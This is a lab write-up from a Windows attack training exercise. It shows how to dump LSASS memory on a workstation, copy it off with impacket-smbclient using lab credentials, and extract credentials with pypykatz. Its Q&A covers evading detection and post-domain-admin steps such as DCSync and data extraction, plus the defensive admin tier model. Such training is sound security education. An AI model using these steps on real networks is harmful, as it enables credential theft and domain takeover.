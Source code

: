 # Windows Attack Lab - Step 10 - Situational Awareness & Credential Dumping on WS1

## Author
* Knöpfel, Daniel
* Duijts, Michael

## Methodology

Option A: Dumping Credentials via RDP Access  
To create a dump with Task Manager windows Defender must be deactivated.

![lsass-dump](Media/05-lsass-dump.png)

Transfer lsass dump to kali with `impacket-smbclient`  
```
impacket-smbclient 'winattacklab.local/cclear:Welc0me2022!@10.0.1.103'
use c$
get Users\cclear\AppData\Local\Temp\lsass.DMP
```
To get information in a readable format `pypykatz` can be used.  
`pypykatz lsa minidump lsass.DMP >> pypykatz.log`  
![pypykatz](Media/05-pypykatz-lsassDump.png)

## Answers

* What other tool than Pypykatz can extract the credentials from the dumped lsass memory?
  * Mimikatz
* Why didn’t we upload and run Mimkatz on WS1?
  * That would be too easily detected and blocked
* Why is ProcDump not detected as hacking tool?
  * Tools from SysInternals are useful and legit tools. Creating process dumps like ProcDump is a valid use case for trouble shooting (CPU spikes, debugging)
* Why can user ffast’s (A DOMAIN ADMIN’s) credentials be found in the LSASS memory of WS1?
  * Because he/she is logged in to WS1.WINATTACKLAB.LOCAL
* How should organizations prevent this kind of problem (domain admins logging in on “normal” servers using their domain admin accounts)?
  * Their active directory should be organized in Tiers ("Microsoft Admin Tier Model"). A domain admin (Tier 0) may not log in to a lower tier to prevent the NTML hash ending up in the LSASS process.
* Congrats. you are domain admin! And now what? How would you now test and exploit the domain admin privileges?
  * Domain controller (DC) sync: get all AD data from domain controller
  * Potentially, try to do the same for connected domain controllers (as the AD forest is the security boundaries)
  * Access server with sensitive business data and extract it
  * Lower security for specific machines to allow for hacking tools
  * The next steps depend a lot on our - the attackers - goal (espionage, money etc.).
